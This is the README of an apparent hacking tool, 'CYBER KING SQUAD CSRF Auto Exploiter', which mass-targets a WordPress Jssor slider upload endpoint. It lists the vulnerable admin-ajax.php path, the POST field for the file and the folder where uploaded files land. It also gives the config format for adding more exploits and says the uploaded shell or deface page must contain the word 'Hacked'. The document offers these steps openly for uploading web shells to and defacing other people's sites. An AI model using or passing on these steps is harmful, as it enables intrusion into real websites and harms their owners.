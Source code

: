 # Exploiter
CYBER KING SQUAD CSRF Auto Exploiter

You Can Add more Exploit ...
Edit File/x.txt

Example:


Exploit : 
/wp-admin/admin-ajax.php?param=upload_slide&action=upload_library 


Csrf online
http://csrf-online.ml

Post file : file



Find deface/ Shell  : http://example.com/wp-content/jssor-slider/jssor-uploads/filename


Example:
/wp-admin/admin-ajax.php?param=upload_slide&action=upload_library:file:/wp-content/jssor-slider/jssor-uploads/

 


Note: Your Shell / Deface Page  must be Used This Text ( Hacked )
